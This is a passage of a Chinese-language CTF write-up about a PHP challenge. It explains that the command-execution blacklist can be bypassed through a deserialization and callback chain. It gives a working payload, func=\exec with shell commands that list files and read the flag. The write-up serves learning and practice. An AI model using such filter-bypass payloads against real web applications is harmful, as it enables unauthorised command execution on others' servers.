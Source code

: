 ```bash
    }
}
?>
    </p>
    <form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</body>
</html>

```
可以看到几乎过滤所有命令执行的函数，但是可以利用Test类的析构函数调用。调用链为：
```
 反序列化->析构函数->gettime()->回调函数
```

payload：
```
func=\exec&p=ls func=\exec&p=cat $(find / -name flag*)
```
![](https://img-blog.csdnimg.cn/20210220234059774.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

